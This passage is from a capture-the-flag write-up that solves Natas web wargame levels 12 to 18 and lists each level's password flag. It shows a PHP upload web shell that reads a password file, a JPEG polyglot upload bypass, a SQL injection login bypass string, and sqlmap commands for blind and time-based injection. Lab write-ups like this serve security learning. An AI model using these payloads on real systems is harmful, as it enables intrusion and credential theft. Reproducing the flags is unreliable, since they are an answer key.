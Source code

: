**Solution**: Upload PHP file, intercept request, change extension from .jpg to .php
**Access**: `/natas12/upload/[filename].php?cmd=cat%20/etc/natas_webpass/natas13`
**Flag**: `icskyy3mbCWmUZs7h72xCsD1GFGtkJgz`

### Level 13: Magic Bytes Bypass
**Objective**: Advanced file upload filtering evasion

**Solution**: Create PHP polyglot with JPEG header (FF D8 FF E0)
**Flag**: `M5EFjJPoZfeUFy6StflnZPk6VuZxgsv1`

### Level 14: SQL Injection Authentication Bypass
**Objective**: Breaking database authentication

```sql
-- Input: " OR 1=1 #
-- Results in: SELECT * FROM users WHERE username="" OR 1=1 # AND password="test"
```

**Flag**: `NYPI7EbUzgGVlDYqkLNGpb2bWwssSJBI`

### Level 15: Blind SQL Injection
**Objective**: Data extraction without direct output

```bash
sqlmap -u "http://localhost:8080/natas15/?username=*" \
       --auth-type Basic \
       --auth-cred "natas15:NYPI7EbUzgGVlDYqkLNGpb2bWwssSJBI" \
       --string="This user exists" \
       --technique=B --level=2 --risk=1 \
       --dbms=mysql -p username --dump
```

**Flag**: `dcfQN47g8Jk0Fkwn9fHz7VSaRn0YQYYG`

### Level 16: Blind Command Injection
**Objective**: Side-channel attack via command injection

**Solution**: Use grep behavior differences to extract password character by character
**Flag**: `VbZXCRbVWMc89uC177ABgy1GZOWXh9xh`

### Level 17: Time-based Blind SQL Injection
**Objective**: Database exploitation without visible feedback

```bash
sqlmap -u "http://localhost:8080/natas17/" \
       --data=username=natas18 \
       --auth-type=Basic \
       --auth-cred="natas17:VbZXCRbVWMc89uC177ABgy1GZOWXh9xh" \
       --technique=T --level=5 --risk=1 \
       --dbms=MySQL -D natas17 -T users -p username --dump
```

**Flag**: `8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq`

### Level 18: Session ID Prediction
**Objective**: Weak session management exploitation
